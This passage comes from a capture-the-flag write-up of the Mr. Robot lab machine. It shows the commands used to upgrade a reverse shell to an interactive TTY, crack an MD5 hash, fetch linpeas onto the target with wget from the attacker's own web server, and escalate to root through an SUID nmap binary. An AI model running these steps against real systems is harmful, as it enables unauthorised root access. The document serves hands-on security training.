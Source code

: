 For higher comfort, I upgraded the reverse shell to an interactive TTY shell. First, I upgraded from shell to bash:

`SHELL=/bin/bash script -q /dev/null`  

Then I spawned bash via Python’s pty module:

`python -c 'import pty; pty.spawn("/bin/bash")'` 

For the full interactive TTY shell, I backgrounded my current remote shell, updated the local terminal line settings with stty, and foregrounded the remote shell again:

`stty raw -echo && fg`

### Enumerating the machine

The second key was located in /home/robot, but unfortunately, the file was only readable by robot. But there was another file readable by everyone. It contained a MD5 hash.

My first try was to check it on a rainbow table before trying to crack it myself, which can be really time-consuming. Luckily, the password was very easy and contained in the rainbow table of [crackstation](https://crackstation.net/).

With this password, I could switch to the user robot and read the keyfile that contained the second key.

The third key should be the root flag that is usually located in /root. I needed root privileges to read the file. At first, I tried some basic methods to escalate my privileges, but the user robot is unfortunately not allowed to use `sudo` and there was nothing interesting in the crontab. So I decided to let a script do the work for me and use linpeas.

Since the machine had no internet connection, I could not download the script from the GitHub repository, and I couldn’t `scp` the file to the machine because ssh was not running. So I used a Python web server:

`python3 -m http.server 6666`

and

`wget http://10.18.18.18:6666/linpeas.sh`

The execution of the `linpeas` script unfortunately failed repeatedly, so I used `linenum` instead.

### Privilege Escalation

`linenum` found that `nmap` had set the SUID bit. The SUID bit means that `nmap` is not executed with the permissions of the user that is executing it, but with the permission of its owner. And the owner is `root`.

I chose `nmap --interactive`:

```bash
nmap --interactive 
nmap> ! /bin/bash -p
bash-4.3# cat /root/key-3-of-3.txt
```

The content of the file was the last piece of information I needed to complete the CTF.

### Final Thoughts: Reflecting on the Mr. Robot CTF Journey
